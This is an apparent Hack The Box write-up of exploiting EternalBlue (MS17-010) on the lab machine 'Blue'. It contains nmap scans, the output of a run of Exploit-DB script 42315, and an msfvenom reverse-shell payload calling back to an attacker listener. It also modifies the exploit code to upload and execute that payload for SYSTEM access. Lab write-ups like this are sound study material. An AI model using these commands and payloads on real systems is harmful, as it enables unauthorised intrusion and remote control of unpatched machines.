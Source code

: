 ```yaml
---
title: "Blue Walkthrough:Exploiting CVE-2017-0144"
date: 2024-10-08 09:00:00 +0530
categories: [Capture the Flags, Windows]
tags: [HTB]   
description: "Walkthrough of HTB's Blue machine without using Metasploit"
---
```


# Blue

*Blue, while possibly the simplest machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.*


### Recon

Started the recon with an Nmap scan:

```bash
sudo nmap -T4 -sS -n -Pn --disable-arp-ping --stats-every=5s -F 10.10.10.40
```

- **-T4**: Sets the timing template for faster scanning.
- **-sS**: Performs a TCP SYN scan.
- **-n**: Disables DNS resolution.
- **-Pn**: Skips host discovery (pinging).
- **-F**: Scans the top TCP ports.

The initial scan reveals several open ports, including:

- 135/tcp open  msrpc
- 139/tcp open  netbios-ssn
- 445/tcp open  microsoft-ds (Samba)
- Multiple high-numbered ports (49152-49157) open for Microsoft services.

Next, I performed a more detailed scan to identify the operating system and versions of the services:

```bash
sudo nmap -T4 -A -Pn -n --disable-arp-ping 10.10.10.40 --source-port 53 -p 135,139,445,49152,49153,49154,49155,49156,49157

sudo nmap -v --script vuln,exploit -p 135,139,445 10.10.10.40
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

This identified the target as **Windows 7 Professional 7601 Service Pack 1**, making it susceptible to the EternalBlue exploit (MS17-010).

### Exploitation:

MS17-010 is a critical vulnerability in SMBv1 (CVE-2017-0144). Exploiting it allows remote code execution with SYSTEM-level privileges.

#### Preparing the Exploit:

First, I copied the exploit script from the `exploitdb` directory to my working directory:

```bash
(kali㉿kali)-[~/Red_Team/HTB/Blue]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/42315.py ./4315.py
```

The exploit is written in Python 2.7, and when I tried to run it, syntax issues arose due to the differences between Python 2.7 and Python 3. To resolve this, I created a Python 2.7 virtual environment:

1. **Download pip** for Python 2.7:

    ```bash
    python2.7 get-pip.py
    ```

2. **Verify the pip version** and set up the virtual environment:

    ```bash
    > pip --version                  
    pip 20.3.4 from /home/kali/.local/lib/python2.7/site-packages/pip (python 2.7)
    > pip install virtualenv   
    > python2.7 -m virtualenv myenv
    ```

3. **Activate the virtual environment** and install the required dependencies, like `impacket`, which is essential for running the exploit smoothly.

#### Running the Exploit:

With the environment set up, I executed the modified script using Python 2.7:

```bash
──(myenv)─(kali㉿kali)-[~]
└─$ python Red_Team/HTB/Blue/4315.py 10.10.10.40 netlogon
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80041f95e0
SESSION: 0xfffff8a009713aa0
FLINK: 0xfffff8a00a10a088
InParam: 0xfffff8a00a10415c
MID: 0x2103
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```

The output indicated a successful exploitation process, leading to SYSTEM-level access on the target.

### Knowledge Share:

SMB servers use *named pipes* to communicate with various services for authentication:

- **Domain-joined SMB Servers** use the *Netlogon* service to communicate with the domain controller for authentication.
- **Standalone SMB Servers** interact with the local *SAM (Security Account Manager)* database via the `\samr` pipe to verify credentials.
- The **Local Security Authority (LSA)** manages security policies and access controls through its communication with the SMB server.

For testing purposes, running the command with random "username" and "password" can help in exploring these interactions during an exploit attempt.

### Custom Exploit:

For a deeper understanding, I modified the EternalBlue exploit script to upload a custom reverse shell and execute it:

1. **Creating the executable payload** using `msfvenom`:

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=8080 -f exe > Benign.exe
    ```

2. **Modifying the script** to transfer and execute the payload:

    ```python
    def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        print('Creating file C:\\Benign.exe on the target')
        smb_send_file(smbConn, '/home/kali/Red_Team/HTB/Blue/Benign.exe', 'C', '/Benign.exe')
        service_exec(conn, r'cmd /c C:\\Benign.exe')
    ```

3. **Running the script** gave me a reverse shell back to my machine, maintaining SYSTEM access.

### Post-Exploitation:

After successful exploitation, I had SYSTEM-level access:

```bash
C:\Windows\system32> whoami
nt authority\system
```

This means complete control over the machine, including access to any files. Retrieving the flag:

```bash
C:\Users\Administrator\Desktop> type root.txt
734ac76b26b651a6658354572badeb63
```

### Conclusion:

The Blue machine on Hack The Box is a great example of how a seemingly outdated vulnerability like EternalBlue can still pose a significant risk if left unpatched. Proper patch management and disabling legacy protocols like SMBv1 are critical for maintaining secure networks.

## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References
- [Exploit-DB: MS17-010 EternalBlue Exploit](https://www.exploit-db.com/exploits/42315)
---

